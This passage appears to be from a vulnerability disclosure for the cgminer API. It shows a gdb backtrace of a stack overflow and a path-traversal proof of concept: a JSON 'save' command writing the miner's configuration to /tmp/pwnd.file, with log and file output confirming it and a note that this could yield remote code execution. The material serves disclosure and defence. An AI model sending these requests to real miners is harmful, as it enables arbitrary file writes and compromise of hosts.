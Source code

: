 ```STATUS=E,When=1518898313,Code=14,Msg=Invalid command,Description=cgminer 4.9.0|\x00```
No symbol table info available.
#4  0x5c3d5c3d5c3d5c3d in ?? ()
No symbol table info available.
#5  0x5c3d5c3d5c3d5c3d in ?? ()
No symbol table info available.
#6  0x5c3d5c3d5c3d5c3d in ?? ()
No symbol table info available.
...

`

It is clearly visible that the stack has been smashed by the string `\=` (0x5c3d).

3. [vector 2] absolute path traversal in `save` allows to write the node configuration file to any location on the host not protected by any basedir restrictions.

`#> poc.py --vector=traverse_save 192.168.2.114:4028
...
[cgminer.py -              sendRcv() ][   DEBUG] sendRcv: '{"parameter": "/tmp/pwnd.file", "command": "save"}\n'
[cgminer.py -             <module>() ][    INFO] --done--
{u'STATUS': [{u'STATUS': u'S', u'Msg': u"Configuration saved to file '/tmp/pwnd.file'", u'Code': 44, u'When': xxxxx, u'Description': u'cgminer 4.10.0'}], u'id': 1}
`

This will store the node's configuration file with the permissions of the user that launched the process as
`/tmp/pwnd.file` on the host computer. This could very likely be used to gain RCE by planting scripting code into
webroots on the same host or overwriting arbitrary files.

Miner Log:
`
...
 [xxxx] API: connection from 192.168.2.106 - Accepted
 [xxxx] API: recv command: (51) '{"parameter": "/tmp/pwnd.file", "command": "save"}
 [xxxx] API: send reply: (147) '{"STATUS":...'
 [xxxx] API: sent all of 147 first go
...`

Host Computer:

`
#> stat /tmp/pwnd.file
  File: '/tmp/pwnd.file'
  Size: 2384            Blocks: 8          IO Block: 4096   regular file
Device: 801h/2049d      Inode: 681465      Links: 1
Access: (0664/-rw-rw-r--)  Uid: ( 1000/     tin)   Gid: ( 1000/     tin)
Access: xxxx
Modify: xxxx
Change: xxxx
 Birth: -

#> cat /tmp/pwnd.file
{
"pools" : [
        {
                "url" : "stratum+tcp://ltc-eu.give-me-coins.com:3334",
                "user" : "a",
                "pass" : "a"
        },
 ...
]
```